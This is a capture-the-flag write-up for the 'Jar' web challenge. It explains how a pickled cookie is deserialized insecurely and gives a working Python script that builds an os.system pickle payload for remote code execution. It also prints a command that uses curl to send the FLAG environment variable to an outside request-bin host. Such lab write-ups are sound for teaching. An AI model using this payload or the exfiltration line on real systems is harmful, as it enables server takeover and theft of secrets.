

# Jar

## Challenge:

My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co/) to get you warmed up.

## Solution:

We’re given a link to the web application, the Python source code, and a picture of a pickle. The hint points to the [documentation for the Python pickle module](https://docs.python.org/3/library/pickle.html), a clue that this application is vulnerable to insecure deserialization.

The site shows a single form input with an “Add Item” button. Whatever we submit is appended to the page. Looking at the source code, we can see that the `contents` cookie is used to store these submissions.

On a post request, the `contents` cookie is Base64 decoded and then deserialized and stored in an array. The new item is added, the array is serialized, and then the cookie is reencoded and set in the browser. When we visit the page, the `contents` cookie is decoded and deserialized and the objects are used to generate the text boxes around the page.

We should be able to generate our own pickled payload, set it as the `contents` cookie, and convince the application to deserialize the cookie and execute our code.

There’s a good write-up [here](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) with a script to generate an exploit. Unfortunately, everything we try seems to result in a `500` error. Using a trick discovered [here](https://r3billions.com/writeup-pickle-store/), we can try `sleep 5` to confirm that our code is getting executed on the server:

```
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ("sleep 5")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

That gives us the payload `gASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAdzbGVlcCA1lIWUUpQu`. If we set that as our cookie and refresh the page, we see that it does indeed take 5 seconds to load. Now we just need to exfiltrate our flag.

Using another trick from that same write-up, we can try to `curl` an endpoint with our output. We can use our own server, or a [request bin](https://requestbin.com/), to receive the payload.

We can see in the source code that the flag is stored in an environment variable. Let’s update our exploit:

```
cmd = ("curl https://en1rz2m58frpb.x.pipedream.net/`echo $FLAG`")
```

If we give that a try, we immediately see a response on our request bin:



And there's our flag: `actf{you_got_yourself_out_of_a_pickle}`.
